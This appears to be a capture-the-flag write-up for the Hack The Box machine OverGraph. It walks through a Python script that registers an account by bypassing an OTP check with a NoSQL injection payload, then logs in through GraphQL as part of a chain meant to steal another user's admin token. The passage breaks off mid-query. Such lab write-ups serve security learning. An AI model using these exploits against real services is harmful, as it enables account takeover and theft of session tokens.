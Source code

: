 # Hack The Box. Machines. OverGraph

Machine write-up: https://7rocky.github.io/en/htb/overgraph

### `get_admin_token.py`

This Python script is used to obtain the `adminToken` of another user from `localStorage`. The script chains some web exploits to accomplish this.

For this reason, the script uses a session within `requests`, to keep all cookies in subsequent requests:

```python
URL = 'http://10.10.11.157'
HOST = {'Host': 'internal-api.graph.htb'}

USER = f'rocky'
PASSWORD = 'asdffdsa'
EMAIL = f'{USER}@graph.htb'

s = requests.session()
```

The first thing that it does is register a new account:

```python
def register_user():
    s.post(f'{URL}/api/code', headers=HOST, json={
        'email': EMAIL
    })

    s.post(f'{URL}/api/verify', headers=HOST, json={
        'email': EMAIL,
        'code': {
            '$ne': 'foo'
        }
    })

    s.post(f'{URL}/api/register', headers=HOST, json={
        'email': EMAIL,
        'username': USER,
        'password': PASSWORD,
        'confirmPassword': PASSWORD
    })
```

Here we have the first web exploit, which is a NoSQL injection payload to bypass the OTP code and verify our email accound, so that we can create the account. Then, we log in normally, but using a GraphQL mutation:

```python
def login():
    s.post(f'{URL}/graphql', headers=HOST, json={
        'variables': {
            'email': EMAIL,
            'password': PASSWORD
        },
        'query': '''
            mutation login($email: String!, $password: String!) {
                login(email: $email, password: $password) {
                    email
                    username
                    adminToken
                    id
                    admin
                    firstname
```